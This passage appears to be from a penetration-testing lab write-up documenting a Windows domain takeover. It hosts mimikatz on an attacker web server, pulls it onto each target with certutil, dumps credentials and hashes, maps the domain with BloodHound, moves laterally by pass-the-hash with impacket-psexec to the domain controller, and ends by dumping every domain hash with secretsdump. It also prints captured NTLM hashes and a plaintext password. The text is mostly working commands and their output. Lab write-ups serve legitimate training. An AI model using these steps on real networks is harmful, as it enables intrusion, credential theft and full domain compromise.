  

### Dump Hashes

We can now run `mimikatz.exe` to dump the targets hashes. 

Copy `mimikatz.exe` over to our working directory and start a python web server.

```bash
cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe ./
python3 -m http.server 80
```

We can use `certutil` to upload it to the target.

```powershell
certutil -urlcache -split -f http://192.168.119.194/mimikatz.exe mimikatz.exe
```

Then dump the targets hashes.

```powershell
.\mimikatz.exe

privilege::debug
sekurlsa::logonpasswords
```

  

We get both the NTLM hashes but also `alice`'s plaintext password.

```text
Administrator:ee0c207898a5bccc01f38115019ca2fb
alice:7f004ce6b8f7b2a3b6c477806799b9c0:ThisIsTheUsersPassword01
```

### Proof

```powershell
type proof.txt && ipconfig
```

  

### Enumerating Domain

Now that we have credentials, let's use `bloodhound-python` to figure out what machine to pivot to.

```bash
bloodhound-python -c All -u alice -p 'ThisIsTheUsersPassword01' -d svcorp.com -dc sv-dc01.svcorp.com -ns 10.11.1.20
```

  

Let's load this into `bloodhound`.

  

## Shell on svclient73

We can use a pass the hash attack on `svclient73` to gain an administrator shell by reusing the administrators NT hash dumped from `svclient08`.

```bash
rlwrap impacket-psexec Administrator@10.11.1.24 -hashes :ee0c207898a5bccc01f38115019ca2fb 
```

  

### Proof

```powershell
type proof.txt && ipconfig
```

  

### Dump Hashes

We'll upload `mimikatz` to the machine to dump it's hashes.

```powershell
certutil -urlcache -split -f http://192.168.119.194/mimikatz.exe mimikatz.exe
```

Dump targets hashes.

```powershell
.\mimikatz.exe

privilege::debug
sekurlsa::logonpasswords
```

  

```text
Administrator:ee0c207898a5bccc01f38115019ca2fb
pete:0f951bc4fdc5dfcd148161420b9c6207
```

## Shell on sv-file01

We can again use a pass the hash attack to gain an administrative shell on `sv-file01` using `pete`'s NT hash.

```bash
rlwrap impacket-psexec pete@10.11.1.21 -hashes :0f951bc4fdc5dfcd148161420b9c6207
```

  

### Proof

```powershell
type proof.txt && ipconfig
```

  

### Dump Hashes

```powershell
certutil -urlcache -split -f http://192.168.119.194/mimikatz.exe mimikatz.exe
```

Dump the targets hashes.

```powershell
.\mimikatz.exe

privilege::debug
sekrulsa::logonpasswords
```

  

```text
Administrator:f4ada15ad8818bf28967bf80ec3e5d9d
tris:08df3c73ded940e1f2bcf5eea4b8dbf6
```

## Shell on sv-dc01

Using a pass the hash attack once again we can get a shell on `sv-dc01` using `tris`'s NT hash. As we can recall from enumerating his user, he is a part of the `Domain Admins` group.

```bash
rlwrap impacket-psexec tris@10.11.1.20 -hashes :08df3c73ded940e1f2bcf5eea4b8dbf6
```

  

### Proof

```powershell
type domain_proof.txt && ipconfig
```

  

### Dump Hashes

Since we've owned the domain, we can use `secretsdump` to dump the hashes for all users across the domain.

```bash
impacket-secretsdump tris@10.11.1.20 -hashes :08df3c73ded940e1f2bcf5eea4b8dbf6 -outputfile hashes
```

  